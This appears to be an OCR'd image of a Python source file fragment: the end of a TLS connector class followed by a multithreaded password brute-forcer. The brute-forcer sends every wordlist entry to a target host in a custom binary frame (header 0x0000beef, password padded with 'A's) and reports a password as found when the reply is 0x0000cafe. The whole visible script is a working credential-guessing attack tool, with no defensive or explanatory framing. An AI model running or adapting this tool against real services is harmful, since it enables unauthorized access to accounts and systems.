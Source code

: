 ```python
        while received_size < 4:
            data_in = self.ssl_sock.recv()
            data_buffer = data_buffer + data_in
            received_size += len(data_in)

        return data_buffer


def passwordcheck(password):
    if len(password) > 0:
        result = None
        conn = Connector()
        conn.open(args.host, args.port)
        payload = bytearray(b"\x00\x00\xbe\xef") + len(password).to_bytes(1, "big", signed=True) + bytes(
            bytes(password, "ascii").ljust(256, b"A"))
        conn.send(payload)
        if conn.is_connected(): result = conn.receive()
        if conn.is_connected(): conn.close()
        if result == bytearray(b"\x00\x00\xca\xfe"):
            return password
        else:
            return False
    else:
        print("Ignored blank password")

passwords = []

if args.wordlist:
    print("Wordlist: {}".format(args.wordlist))
    passwords = open(args.wordlist).read().split("\n")
else:
    print("Wordlist: {}".format("stdin"))
    for line in sys.stdin:
        passwords.append(line.rstrip())

if len(passwords) > 0:

    print("Word Count: {}".format(len(passwords)))
    print("Threads: {}".format(args.threads))

    start = time.time()

    # https://stackoverflow.com/questions/2846653/how-to-use-threading-in-python

    attempts = 0
    failures = 0

    with concurrent.futures.ThreadPoolExecutor(max_workers=args.threads) as executor:

        future_to_check = {executor.submit(passwordcheck, password): password for password in passwords}
        for future in concurrent.futures.as_completed(future_to_check):
            password = future_to_check[future]
            try:
                data = future.result()
                attempts = attempts + 1
                if data:
                    print("Found Password: {}".format(password))
            except Exception as exc:
                failures = failures + 1
                print('%r generated an exception: %s' % (password, exc))

```